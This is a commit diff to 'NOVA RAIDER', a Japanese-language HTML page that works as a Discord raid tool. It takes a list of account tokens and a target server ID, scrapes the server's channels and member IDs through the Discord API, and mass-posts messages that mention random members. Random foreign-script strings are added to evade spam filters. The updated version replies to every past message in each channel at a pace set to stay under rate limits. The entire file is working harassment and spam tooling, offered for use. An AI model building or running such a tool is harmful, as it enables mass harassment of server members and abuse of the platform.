

Before and after one commit to uow-raider/automatic-spoon, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 103-1045 px from the top of the page, without its empty margins (182-1097 px from the left). After the commit the page ends 865 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,279 +2,209 @@
 <html lang="ja">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>NOVA RAIDER </title>
+    <title>NOVA RAIDER V6 - Legacy Sweep</title>
     <style>
         :root {
-            --bg-color: #0d0d12;
-            --card-bg: #151522;
-            --text-color: #e0e0e5;
-            --primary: #00d4ff;
+            --bg: #08080c;
+            --accent: #00d4ff;
             --danger: #ff0055;
-            --success: #00ff88;
-            --border: #252538;
-            --input-bg: #080810;
+            --card: #11111d;
+            --border: #1f1f35;
         }
 
         body {
-            font-family: 'Helvetica Neue', 'Arial', 'Hiragino Kaku Gothic ProN', 'Meiryo', sans-serif;
-            background-color: var(--bg-color);
-            color: var(--text-color);
+            font-family: 'Consolas', 'Meiryo', sans-serif;
+            background-color: var(--bg);
+            color: #ccc;
+            margin: 0;
+            padding: 20px;
             display: flex;
             justify-content: center;
-            padding: 20px;
-            margin: 0;
         }
 
         .container {
             width: 100%;
-            max-width: 720px;
-            background: var(--card-bg);
-            padding: 30px;
-            border-radius: 16px;
-            box-shadow: 0 15px 50px rgba(0, 0, 0, 0.6);
+            max-width: 800px;
+            background: var(--card);
+            padding: 25px;
+            border-radius: 8px;
             border: 1px solid var(--border);
+            box-shadow: 0 0 50px rgba(0,0,0,0.8);
         }
 
-        header { text-align: center; margin-bottom: 25px; }
-        .brand-title { margin: 0; font-size: 32px; font-weight: 900; letter-spacing: 4px; color: var(--primary); text-shadow: 0 0 15px rgba(0, 212, 255, 0.3); }
+        .title { text-align: center; color: var(--accent); font-size: 24px; letter-spacing: 5px; margin-bottom: 20px; text-shadow: 0 0 10px var(--accent); }
 
-        .section { margin-bottom: 20px; }
-        label { display: block; font-size: 12px; margin-bottom: 8px; color: var(--primary); font-weight: bold; }
+        .form-section { margin-bottom: 15px; }
+        label { display: block; font-size: 11px; color: var(--accent); margin-bottom: 5px; font-weight: bold; }
 
         textarea, input, select {
-            width: 100%; padding: 12px; background: var(--input-bg); border: 1px solid var(--border);
-            border-radius: 8px; color: white; box-sizing: border-box; outline: none; font-family: 'Consolas', monospace;
+            width: 100%; padding: 10px; background: #000; border: 1px solid var(--border);
+            border-radius: 4px; color: #fff; box-sizing: border-box; font-size: 12px; outline: none;
         }
 
-        .form-row { display: flex; gap: 12px; }
+        .flex-row { display: flex; gap: 10px; margin-bottom: 15px; }
         .flex-1 { flex: 1; }
-        .flex-2 { flex: 2; }
 
-        .controls { display: flex; gap: 12px; margin-top: 25px; }
-        .btn { flex: 1; padding: 14px; border: none; border-radius: 8px; font-weight: bold; cursor: pointer; text-transform: uppercase; transition: 0.3s; font-size: 13px; }
-        .btn-primary { background: var(--primary); color: #000; }
-        .btn-danger { background: var(--danger); color: white; }
-        .btn-action { background: #2a2a40; color: var(--primary); border: 1px solid var(--primary); margin-top: 5px; padding: 8px; font-size: 11px; }
-        .btn:disabled { opacity: 0.3; filter: grayscale(1); cursor: not-allowed; }
+        .btn { width: 100%; padding: 12px; border: none; border-radius: 4px; font-weight: bold; cursor: pointer; transition: 0.2s; margin-top: 5px; }
+        .btn-main { background: var(--accent); color: #000; }
+        .btn-stop { background: var(--danger); color: #fff; margin-top: 10px; }
+        .btn-util { background: #1a1a2a; color: var(--accent); border: 1px solid var(--accent); font-size: 11px; }
 
-        .status-panel {
-            margin-top: 20px; padding: 15px; background: rgba(0,0,0,0.3);
-            border-radius: 8px; display: flex; justify-content: space-between;
-            font-family: 'Consolas', monospace; font-size: 14px; border: 1px solid var(--border);
+        #log {
+            margin-top: 20px; height: 180px; background: #000; border: 1px solid var(--border);
+            padding: 10px; font-size: 11px; overflow-y: auto; color: #999;
         }
-
-        #logBoard {
-            margin-top: 15px; height: 160px; background: #05050a; border: 1px solid var(--border);
-            border-radius: 8px; padding: 10px; font-size: 11px; overflow-y: scroll; color: #aaa;
-        }
-        .log-entry { border-bottom: 1px solid #1a1a2a; padding: 4px 0; }
-        .log-time { color: #666; margin-right: 8px; }
+        .log-hit { color: var(--accent); }
     </style>
 </head>
 <body>
 
 <div class="container">
-    <header>
-        <h1 class="brand-title">NOVA RAIDER</h1>
-        <p style="font-size: 11px; opacity: 0.6; text-align: center; letter-spacing: 1px;">チャンネル自動取得 & 手動編集対応モデル</p>
-    </header>
+    <div class="title">NOVA RAIDER V6</div>
+    <p style="text-align:center; font-size:10px; margin-top:-15px; opacity:0.7;">EXISTING MESSAGE SWEEP SYSTEM</p>
 
-    <div class="section">
-        <label>使用トークン (1行に1つ)</label>
-        <textarea id="tokens" style="height: 80px;" placeholder="ここにトークンを貼り付けてください..."></textarea>
+    <div class="form-section">
+        <label>使用トークン (1行1つ)</label>
+        <textarea id="tokens" style="height: 50px;"></textarea>
     </div>
 
-    <div class="form-row section">
-        <div class="flex-2">
-            <label>ターゲットサーバーID (Guild ID)</label>
-            <input type="text" id="guildId" placeholder="例: 123456789012345678">
-            <button class="btn-action" onclick="fetchServerInfo()">➔ サーバーからチャンネル・メンバーを取得</button>
+    <div class="flex-row">
+        <div class="flex-1">
+            <label>ターゲットサーバーID</label>
+            <input type="text" id="guildId">
+            <button class="btn-util" onclick="setupServer()">チャンネルリスト取得</button>
         </div>
         <div class="flex-1">
-            <label>送信間隔 (ミリ秒)</label>
-            <input type="number" id="interval" value="1000" min="50">
+            <label>遡り件数 (1チャンネルにつき何件にリプライするか)</label>
+            <input type="number" id="limitPerCh" value="50">
         </div>
     </div>
 
-    <div class="form-row section">
+    <div class="flex-row">
         <div class="flex-1">
-            <label>ターゲットチャンネルID (1行に1つ / 手動入力可)</label>
-            <textarea id="targetChannels" style="height: 80px;" placeholder="自動取得ボタンを押すか、直接IDを入力してください..."></textarea>
+            <label>ターゲットチャンネルID</label>
+            <textarea id="channels" style="height: 80px;"></textarea>
         </div>
         <div class="flex-1">
-            <label>メンション対象IDリスト (自動取得可 / 編集可)</label>
-            <textarea id="targetMembers" style="height: 80px;" placeholder="自動取得ボタンを押すとここにメンバーIDが入ります..."></textarea>
+            <label>メンション対象ID</label>
+            <textarea id="members" style="height: 80px;"></textarea>
         </div>
     </div>
 
-    <div class="section" style="background: rgba(0,212,255,0.03); padding: 15px; border-radius: 8px; border: 1px solid var(--border);">
-        <label style="color: var(--success);">スパム回避用ランダム文字列設定</label>
-        <div class="form-row">
-            <div class="flex-2">
-                <label style="font-size: 10px; opacity: 0.8;">使用言語</label>
-                <select id="langSelect">
-                    <option value="en">英語 (abcde...)</option>
-                    <option value="alnum">英数字 (a1b2c...)</option>
-                    <option value="ko">韓国語 (ハングル)</option>
-                    <option value="ar">アラビア語 (العربية)</option>
-                    <option value="km">クメール語 (ភាសាខ្មែរ)</option>
-                </select>
-            </div>
-            <div class="flex-1">
-                <label style="font-size: 10px; opacity: 0.8;">文字数</label>
-                <input type="number" id="strLength" value="12" min="1" max="100">
-            </div>
+    <div class="flex-row" style="background: rgba(0,212,255,0.05); padding: 10px; border-radius: 4px;">
+        <div class="flex-1">
+            <label>本文</label>
+            <input type="text" id="msgBody" value="REPLY SWEEP ATTACHED">
+        </div>
+        <div style="width: 80px;">
+            <label>言語</label>
+            <select id="lang">
+                <option value="km">クメール語</option>
+                <option value="ar">アラビア語</option>
+                <option value="ko">韓国語</option>
+            </select>
+        </div>
+        <div style="width: 60px;">
+            <label>文字数</label>
+            <input type="number" id="strLen" value="15">
         </div>
     </div>
 
-    <div class="form-row section">
-        <div class="flex-1">
-            <label>メンション人数 / 回</label>
-            <input type="number" id="mentionCount" value="3" min="0" max="15">
-        </div>
-        <div class="flex-2">
-            <label>送信メッセージ本文</label>
-            <input type="text" id="message" placeholder="メッセージを入力してください">
-        </div>
-    </div>
+    <button id="start" class="btn btn-main" onclick="startSweep()">全既存メッセージへのリプライ開始</button>
+    <button id="stop" class="btn btn-stop" onclick="stopSweep()" disabled>停止</button>
 
-    <div class="controls">
-        <button id="startBtn" class="btn btn-primary" onclick="startRaid()">RAIDER 起動</button>
-        <button id="stopBtn" class="btn btn-danger" onclick="stopRaid()" disabled>停止</button>
-    </div>
-
-    <div class="status-panel">
-        <span>ステータス: <strong id="statusText" style="color: #666;">READY</strong></span>
-        <span>送信成功: <strong id="sentCount" style="color: var(--primary);">0</strong></span>
-    </div>
-
-    <div id="logBoard">
-        <div class="log-entry">トークンを入力し、サーバーIDから情報を取得してください。</div>
-    </div>
+    <div id="log"></div>
 </div>
 
 <script>
-    let raidIntervals = [];
-    let sentCounter = 0;
+    let sweeping = false;
+    const charSets = { km: "កខគឃងចឆជឈញដឋឌឍណតថទធនបផពភមយរលវសហឡអ", ar: "ابتثجحخدذرزسشصضطظعغفقكلمنهوي", ko: "가나다라마바사아자차카타파하" };
 
-    const charSets = {
-        en: "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ",
-        alnum: "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789",
-        ko: "가나다라마바사아자차카타파하거너더러머버서어저처커터퍼허기니디리ミビシイジチキティピヒ",
-        ar: "ابتثجحخدذرزسشصضطظعغفقكلمنهوي",
-        km: "កខគឃងចឆជឈញដឋឌឍណតថទធនបផពភមយរលវសហឡអ"
-    };
-
-    function addLog(msg, color = "") {
-        const board = document.getElementById('logBoard');
-        const div = document.createElement('div');
-        div.className = 'log-entry';
-        if (color) div.style.color = color;
-        const time = new Date().toLocaleTimeString();
-        div.innerHTML = `<span class="log-time">[${time}]</span> ${msg}`;
-        board.prepend(div);
+    function log(m, c="") {
+        const l = document.getElementById('log');
+        const d = document.createElement('div');
+        if(c) d.style.color = c;
+        d.innerHTML = `[${new Date().toLocaleTimeString()}] ${m}`;
+        l.prepend(d);
     }
 
-    async function fetchServerInfo() {
-        const tokens = document.getElementById('tokens').value.split(/\r?\n/).filter(t => t.trim() !== "");
-        const guildId = document.getElementById('guildId').value.trim();
-
-        if (!tokens.length || !guildId) return alert("トークンとサーバーIDを入力してください。");
-
-        addLog("サーバー情報を取得中...", "var(--primary)");
-
+    async function setupServer() {
+        const t = document.getElementById('tokens').value.split('\n')[0].trim();
+        const g = document.getElementById('guildId').value.trim();
+        if(!t || !g) return alert("トークンとサーバーIDが必要です");
         try {
-            // チャンネル取得
-            const resCh = await fetch(`https://discord.com/api/v9/guilds/${guildId}/channels`, {
-                headers: { 'Authorization': tokens[0] }
-            });
-            const channels = await resCh.json();
-            const validChannels = channels.filter(c => [0, 5].includes(c.type)).map(c => c.id);
-            document.getElementById('targetChannels').value = validChannels.join('\n');
-
-            // メンバー取得 (1000人)
-            const resMem = await fetch(`https://discord.com/api/v9/guilds/${guildId}/members?limit=1000`, {
-                headers: { 'Authorization': tokens[0] }
-            });
-            const members = await resMem.json();
-            if (Array.isArray(members)) {
-                const memberIds = members.map(m => m.user.id);
-                document.getElementById('targetMembers').value = memberIds.join('\n');
-                addLog(`捕捉成功: チャンネル数 ${validChannels.length} / メンバー数 ${memberIds.length}`, "var(--success)");
-            } else {
-                addLog("メンバー取得に失敗しました。権限が不足している可能性があります。", "var(--danger)");
-            }
-        } catch (e) {
-            addLog("情報取得中にエラーが発生しました。IDを確認してください。", "var(--danger)");
-        }
+            const r = await fetch(`https://discord.com/api/v9/guilds/${g}/channels`, { headers: { 'Authorization': t } });
+            const data = await r.json();
+            document.getElementById('channels').value = data.filter(c => [0,5].includes(c.type)).map(c => c.id).join('\n');
+            const rM = await fetch(`https://discord.com/api/v9/guilds/${g}/members?limit=1000`, { headers: { 'Authorization': t } });
+            const mData = await rM.json();
+            document.getElementById('members').value = mData.map(m => m.user.id).join('\n');
+            log("サーバーデータ同期完了", "var(--accent)");
+        } catch(e) { log("取得失敗", "var(--danger)"); }
     }
 
-    function generateRandomStr(lang, len) {
-        let result = "";
-        const characters = charSets[lang] || charSets.en;
-        for (let i = 0; i < len; i++) {
-            result += characters.charAt(Math.floor(Math.random() * characters.length));
-        }
-        return result;
+    function getRand() {
+        const s = charSets[document.getElementById('lang').value];
+        let r = "";
+        for(let i=0; i<parseInt(document.getElementById('strLen').value); i++) r += s.charAt(Math.floor(Math.random()*s.length));
+        return r;
     }
 
-    async function startRaid() {
-        const tokens = document.getElementById('tokens').value.split(/\r?\n/).filter(t => t.trim() !== "");
-        const channels = document.getElementById('targetChannels').value.split(/\r?\n/).filter(c => c.trim() !== "");
-        const members = document.getElementById('targetMembers').value.split(/\r?\n/).filter(m => m.trim() !== "");
-        const interval = parseInt(document.getElementById('interval').value);
-        const lang = document.getElementById('langSelect').value;
-        const len = parseInt(document.getElementById('strLength').value);
+    async function startSweep() {
+        sweeping = true;
+        document.getElementById('start').disabled = true;
+        document.getElementById('stop').disabled = false;
 
-        if (!tokens.length || !channels.length) return alert("トークンとターゲットチャンネルIDが必要です。");
+        const tokens = document.getElementById('tokens').value.split('\n').filter(x => x.trim());
+        const channels = document.getElementById('channels').value.split('\n').filter(x => x.trim());
+        const members = document.getElementById('members').value.split('\n').filter(x => x.trim());
+        const limit = parseInt(document.getElementById('limitPerCh').value);
 
-        document.getElementById('startBtn').disabled = true;
-        document.getElementById('stopBtn').disabled = false;
-        document.getElementById('statusText').innerText = "稼働中";
-        document.getElementById('statusText').style.color = "var(--success)";
+        log("全メッセージ遡及リプライを開始します...", "yellow");
 
-        addLog("攻撃プロセスを開始しました。", "var(--success)");
+        for (const chId of channels) {
+            if (!sweeping) break;
+            log(`チャンネル: ${chId} の過去ログをスキャン中...`);
 
-        tokens.forEach((token, i) => {
-            const inv = setInterval(async () => {
-                const target = channels[Math.floor(Math.random() * channels.length)];
-                const mCount = parseInt(document.getElementById('mentionCount').value);
+            try {
+                // 過去ログを取得
+                const res = await fetch(`https://discord.com/api/v9/channels/${chId}/messages?limit=${limit}`, {
+                    headers: { 'Authorization': tokens[0] }
+                });
+                const messages = await res.json();
 
-                let mentions = "";
-                if (mCount > 0 && members.length > 0) {
-                    mentions = [...members].sort(() => 0.5 - Math.random()).slice(0, mCount).map(id => `<@${id}>`).join(" ");
+                if (Array.isArray(messages)) {
+                    for (const msg of messages) {
+                        if (!sweeping) break;
+
+                        // リプライ送信
+                        const t = tokens[Math.floor(Math.random() * tokens.length)];
+                        const mentions = members.sort(() => 0.5 - Math.random()).slice(0, 3).map(id => `<@${id}>`).join(" ");
+
+                        await fetch(`https://discord.com/api/v9/channels/${chId}/messages`, {
+                            method: 'POST',
+                            headers: { 'Authorization': t, 'Content-Type': 'application/json' },
+                            body: JSON.stringify({
+                                content: `${mentions} ${document.getElementById('msgBody').value}\n# ${getRand()}`,
+                                message_reference: { message_id: msg.id }
+                            })
+                        });
+                        log(`完了: MessageID(${msg.id}) へのリプライ`, "var(--accent)");
+                        await new Promise(r => setTimeout(r, 1000)); // レート制限回避用ディレイ
+                    }
                 }
-
-                const randStr = generateRandomStr(lang, len);
-                const content = `${mentions} ${document.getElementById('message').value} \n\n# ${randStr}`;
-
-                try {
-                    const post = await fetch(`https://discord.com/api/v9/channels/${target}/messages`, {
-                        method: 'POST',
-                        headers: { 'Authorization': token, 'Content-Type': 'application/json' },
-                        body: JSON.stringify({ content })
-                    });
-                    if (post.ok) {
-                        sentCounter++;
-                        document.getElementById('sentCount').innerText = sentCounter;
-                    }
-                } catch (err) {}
-            }, interval + (i * 20));
-            raidIntervals.push(inv);
-        });
+            } catch (e) { log(`エラー: ${chId} の処理に失敗`, "var(--danger)"); }
+        }
+        log("すべての遡及リプライ処理が終了しました。", "var(--accent)");
+        stopSweep();
     }
 
-    function stopRaid() {
-        raidIntervals.forEach(clearInterval);
-        raidIntervals = [];
-        document.getElementById('startBtn').disabled = false;
-        document.getElementById('stopBtn').disabled = true;
-        document.getElementById('statusText').innerText = "停止中";
-        document.getElementById('statusText').style.color = "var(--danger)";
-        addLog("すべてのインスタンスを停止しました。", "orange");
+    function stopSweep() {
+        sweeping = false;
+        document.getElementById('start').disabled = false;
+        document.getElementById('stop').disabled = true;
+        log("プロセスを停止しました。");
     }
 </script>
-
 </body>
 </html>
```
